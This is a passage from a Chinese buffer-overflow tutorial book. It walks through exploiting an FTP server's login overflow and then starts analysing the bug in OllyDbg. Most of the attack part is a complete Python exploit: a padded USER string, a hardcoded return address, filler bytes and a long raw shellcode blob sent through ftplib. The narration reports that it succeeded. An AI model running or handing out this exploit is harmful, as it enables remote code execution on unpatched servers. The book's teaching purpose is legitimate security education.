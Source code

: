 在 Python 中，直接加 ShellCode 就可以了，构造起来真爽！嗯？怎么有不能写的错误，如图 7－29。

![](img/Q 版缓冲区溢出教程 227333.jpg)

添几个 NOP 看看，改进构造为： USER A*485 + RET + 32 个 Nop ＋ ShellCode

程序如下：

```
from ftplib import FTP
ftp = FTP('192.168.3.151')
sc = 'A'*485 +'\x12\x45\xFA\x7F' + '\x41'*32
sc += "\xd9\xee\xd9\x74\x24\xf4\x5b\x31\xc9\xb1\x5e\x81\x73\x17\xe0\x66"
sc +="\x1c\xc2\x83\xeb\xfc\xe2\xf4\x1c\x8e\x4a\xc2\xe0\x66\x4f\x97\xb6"
sc +="\x31\x97\xae\xc4\x7e\x97\x87\xdc\xed\x48\xc7\x98\x67\xf6\x49\xaa"
sc +="\x7e\x97\x98\xc0\x67\xf7\x21\xd2\x2f\x97\xf6\x6b\x67\xf2\xf3\x1f"
sc +="\x9a\x2d\x02\x4c\x5e\xfc\xb6\xe7\xa7\xd3\xcf\xe1\xa1\xf7\x30\xdb"
sc +="\x1a\x38\xd6\x95\x87\x97\x98\xc4\x67\xf7\xa4\x6b\x6a\x57\x49\xba"
sc +="\x7a\x1d\x29\x6b\x62\x97\xc3\x08\x8d\x1e\xf3\x20\x39\x42\x9f\xbb"
sc +="\xa4\x14\xc2\xbe\x0c\x2c\x9b\x84\xed\x05\x49\xbb\x6a\x97\x99\xfc"
sc +="\xed\x07\x49\xbb\x6e\x4f\xaa\x6e\x28\x12\x2e\x1f\xb0\x95\x05\x61"
sc +="\x8a\x1c\xc3\xe0\x66\x4b\x94\xb3\xef\xf9\x2a\xc7\x66\x1c\xc2\x70"
sc +="\x67\x1c\xc2\x56\x7f\x04\x25\x44\x7f\x6c\x2b\x05\x2f\x9a\x8b\x44"
sc +="\x7c\x6c\x05\x44\xcb\x32\x2b\x39\x6f\xe9\x6f\x2b\x8b\xe0\xf9\xb7"
sc +="\x35\x2e\x9d\xd3\x54\x1c\x99\x6d\x2d\x3c\x93\x1f\xb1\x95\x1d\x69"
sc +="\xa5\x91\xb7\xf4\x0c\x1b\x9b\xb1\x35\xe3\xf6\x6f\x99\x49\xc6\xb9"
sc +="\xef\x18\x4c\x02\x94\x37\xe5\xb4\x99\x2b\x3d\xb5\x56\x2d\x02\xb0"
sc +="\x36\x4c\x92\xa0\x36\x5c\x92\x1f\x33\x30\x4b\x27\x57\xc7\x91\xb3"
sc +="\x0e\x1e\xc2\xf1\x3a\x95\x22\x8a\x76\x4c\x95\x1f\x33\x38\x91\xb7"
sc +="\x99\x49\xea\xb3\x32\x4b\x3d\xb5\x46\x95\x05\x88\x25\x51\x86\xe0"
sc +="\xef\xff\x45\x1a\x57\xdc\x4f\x9c\x42\xb0\xa8\xf5\x3f\xef\x69\x67"
sc +="\x9c\x9f\x2e\xb4\xa0\x58\xe6\xf0\x22\x7a\x05\xa4\x42\x20\xc3\xe1"
sc +="\xef\x60\xe6\xa8\xef\x60\xe6\xac\xef\x60\xe6\xb0\xeb\x58\xe6\xf0"
sc +="\x32\x4c\x93\xb1\x37\x5d\x93\xa9\x37\x4d\x91\xb1\x99\x69\xc2\x88"
sc +="\x14\xe2\x71\xf6\x99\x49\xc6\x1f\xb6\x95\x24\x1f\x13\x1c\xaa\x4d"
sc +="\xbf\x19\x0c\x1f\x33\x18\x4b\x23\x0c\xe3\x3d\xd6\x99\xcf\x3d\x95"
sc +="\x66\x74\x32\x6a\x62\x43\x3d\xb5\x62\x2d\x19\xb3\x99\xcc\xc2"
ftp.login( sc,'ww') 
```

成功利用！如图 7－30.

![](img/Q 版缓冲区溢出教程 229328.jpg)

好了，现在来分析分析漏洞了，不熟悉的地方开始了。

按老师讲的方法，在溢出时记下保存返回地址的 ESP 值，ESP＝00BBFD5C，然后设置写断点，看是哪个函数保存返回地址在那个 ESP 值中！

在 Ollydbg 中，用 ALT＋M 弹出断点设置框，也可设置内存写断点。但是，设置后有无数的指令对 00BBFD5C 处的值进行了写操作。中断倒是中断了很多次，但次数太多了，根本不知道是哪个函数的操作。郁闷！调了半天都没调出来，还有其他课也布置了作业。没办法，下节课问老师吧！

# 7.3 白盒法和 IDA 分析漏洞

## 7.3 白盒法和 IDA 分析漏洞
